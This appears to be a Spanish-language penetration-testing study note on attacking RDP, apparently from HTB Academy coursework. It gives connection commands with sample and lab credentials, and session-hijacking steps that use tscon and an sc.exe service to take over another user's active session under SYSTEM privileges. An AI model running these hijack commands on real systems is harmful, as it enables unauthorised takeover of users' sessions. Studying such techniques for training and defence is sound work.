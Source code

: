 #rdp
## Interacción con el servicio
### Rdeskop
```bash
rdesktop -u admin -p password123 192.168.2.143
```
### xfreerdp
```bash
xfreerdp /v:$target /u:<username> /p:<password>
```
Podemos añadir una carpeta compartida escribiendo lo siguiente: 
```bash
xfreerdp /v:$target /u:htb-student /p:'HTB_@cademy_stdnt!' /drive:Shared,/tmp
```

## Ataques comunes del protocolo
### Fuerza bruta
Revisar el [[Fuerza bruta#Servicios de red| enlace]] de fuerza bruta
### RDP Session Hijacking
#### Listar usuarios conectados por rdp
```bash
query user
```
Esto nos mostrará la información de los usuarios conectados en este protocolo
#### Suplantación de usuario - tscon
Para ello necesitamos privilegios de `SYSTEM` y utilizar el binario[tscon.exe](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/tscon), que permite conectarnos a otra sesión de rdp. Funciona del siguiente modo
```cmd
tscon #{TARGET_SESSION_ID} /dest:#{OUR_SESSION_NAME}
```
#### Automatización - comando `sessionhijack`
Con `sc.exe` podemos crear un servicio en el sistema como sigue
![[Pasted image 20241202125901.png]]
```cmd
sc.exe create sessionhijack binpath= "cmd.exe /k tscon 2 /dest:rdp-tcp#13"
```
que ejecuta el comando `tscon` para redirigir una sesión RDP activa y a continuación escribir
```cmd
net start sessionhijack
```
### PtH
Revisar [[Credenciales en Windows#Con `xfreerdp`| aquí]]
